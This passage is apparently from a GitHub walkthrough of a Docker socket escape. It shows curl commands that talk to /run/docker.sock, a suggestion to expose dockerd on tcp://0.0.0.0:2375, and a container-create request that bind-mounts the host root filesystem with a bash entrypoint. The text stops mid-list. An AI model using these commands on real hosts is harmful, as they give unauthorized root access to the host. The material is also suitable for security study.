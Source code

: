![image](https://github.com/user-attachments/assets/f4cd3f49-9b8d-4b20-8d03-e18029e48436)

### or Exploiting with curl and nc

- I used curl in this example,you can either communicate with docker api with http or as a file with `--unix-socket` option with curl.
- Run `dockerd -H unix:///var/run/docker.sock -H tcp://0.0.0.0:2375` to access via http
- Or use curl-:
```bash
curl -i -s --unix-socket /run/docker.sock http://localhost/containers/json
```

![image](https://github.com/user-attachments/assets/3ed1877e-2110-46a6-8f82-e256e17159e6)

- We will be replicating the docker api `run` command to create,start and attach a container.Don't forget to switch the json key `image` to the available one.You can check the dockerfile for an available image.Don't forget the id,it is required to check run the container.

```bash
curl -i -s --unix-socket /run/docker.sock -X POST http://localhost/containers/create \
-H "Content-Type: application/json" -d '{"Hostname": "","Domainname": "","User": "","AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Tty": true,"OpenStdin": true,"StdinOnce": true,"Entrypoint": "/bin/bash","Image": "openjdk:11","Volumes": {"/hostfs/": {}},"HostConfig": {"Binds": ["/:/hostfs"]}}'
```

![image](https://github.com/user-attachments/assets/0d90d4da-607b-440b-9c64-769d92e00175)

-




























  
